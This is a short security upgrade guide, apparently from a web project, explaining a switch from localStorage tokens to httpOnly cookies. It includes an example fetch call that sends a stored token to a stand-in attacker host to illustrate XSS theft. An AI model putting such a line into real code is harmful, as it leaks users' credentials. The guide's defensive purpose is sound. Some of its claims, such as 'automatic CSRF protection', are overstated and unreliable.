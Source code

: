 # Frontend Security Upgrade: localStorage → httpOnly Cookies

## 🎯 What Changed

Your frontend has been upgraded from **localStorage** to **httpOnly cookies** for authentication. This is a **major security improvement**.

---

## 🔒 Security Comparison

### Before (localStorage) ❌

```typescript
// Vulnerable to XSS attacks
localStorage.setItem("token", token)

// Any JavaScript can steal it:
fetch("https://attacker.com/steal", { 
  body: localStorage.getItem("token") 
})
```

**Risks:**
- Any malicious script can read the token
- XSS attacks can steal credentials
- No built-in protection

### After (httpOnly Cookies) ✅

```typescript
// Backend sets cookie - JavaScript CANNOT access it
Set-Cookie: token=abc123; HttpOnly; Secure; SameSite=Strict

// Trying to access it returns undefined
console.log(document.cookie) // token is NOT visible ✅
```

**Benefits:**
- JavaScript cannot access the cookie at all
- XSS attacks cannot steal the token
- Automatic CSRF protection
- Server-side expiration control

---

## 📝 Files That Changed

### 1. **src/hooks/useUser.ts**
